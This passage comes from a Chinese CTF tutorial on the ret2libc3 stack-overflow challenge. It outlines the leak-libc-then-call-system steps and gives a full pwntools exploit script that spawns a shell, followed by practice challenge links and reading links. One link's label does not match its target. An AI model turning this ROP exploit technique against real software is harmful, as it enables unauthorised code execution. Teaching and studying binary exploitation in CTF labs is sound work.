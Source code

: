- 泄露 __libc_start_main 地址
- 获取 libc 版本
- 获取 system 地址与 /bin/sh 的地址
- 再次执行源程序
- 触发栈溢出执行 system("/bin/sh")

exp 如下

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

### 题目

- [train.cs.nctu.edu.tw: ret2libc](https://bamboofox.cs.nctu.edu.tw/courses/1/challenges/7)
- [2013-PlaidCTF-ropasaurusrex](https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/babys-first/r0pbaby)
- [Defcon 2015 Qualifier: R0pbaby](https://ctftime.org/task/364)

## 参考阅读

- [蒸米 ROP - Linux_x86](https://segmentfault.com/a/1190000005888964)
- [蒸米 ROP - Linux_x64](https://segmentfault.com/a/1190000007406442)
- [手把手教你栈溢出从入门到放弃（上）](https://zhuanlan.zhihu.com/p/25816426)
- [手把手教你栈溢出从入门到放弃（下）](https://zhuanlan.zhihu.com/p/25892385)
- [ 【技术分享】现代栈溢出利用技术基础：ROP](http://bobao.360.cn/learning/detail/3694.html)

